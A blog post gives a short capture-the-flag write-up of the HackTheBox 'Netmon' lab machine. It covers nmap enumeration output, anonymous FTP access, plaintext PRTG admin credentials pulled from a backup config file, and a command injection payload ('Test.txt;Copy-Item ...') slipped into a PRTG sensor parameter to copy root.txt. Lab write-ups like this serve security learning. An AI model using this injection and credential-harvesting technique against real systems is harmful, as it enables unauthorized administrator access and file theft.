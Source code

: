 ```yaml
---
title: "HTB Netmon Quick Writeup"
subtitle: "First Windows Box I Owned"
date: 2019-03-08T13:09:31-04:00
lastmod: 2020-05-29T13:09:31-04:00
draft: false
author: "Nathan Higley"
authorLink: ""
description: ""

tags: [writeup, hackthebox, hacking]
categories: [HackTheBox, Security]

hiddenFromHomePage: false
hiddenFromSearch: false

featuredImage: ""
featuredImagePreview: ""

toc:
  enable: true
math:
  enable: false
lightgallery: false
license: ""
---
```


# Netmon

### Enumeration

>nmap -A -p- -T4:
 ```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-08 20:55 EST
Nmap scan report for 10.10.10.152
Host is up (0.100s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds


Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -2s, deviation: 0s, median: -2s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-03-08 20:56:22
|_  start_date: 2019-03-08 20:11:33

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   100.19 ms 10.10.12.1
2   100.41 ms 10.10.10.152
```

## Got User
> Just log in to anonymous FTP and find the user.txt file.

## Got Admin Credentials For Web App
> Find plaintext credentials in 'C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old.bak'

>username = prtgadmin

>password = PrTg@dmin2019

 ## Got Admin Hash
 
 Exploit a vulnerability in the PRGT Netmon's powershell sensor, more specifically the default powershell script.  This allows for execution of a powershell script as administrator.   Use the powerline command to copy the root.txt file to a hidden folder that is open to the FTP, and grab the file using FTP.
```
Test.txt;Copy-Item -Path C:\Users\Administrator\root.txt -Destination C:\ProgramData\1.txt -Force 
```
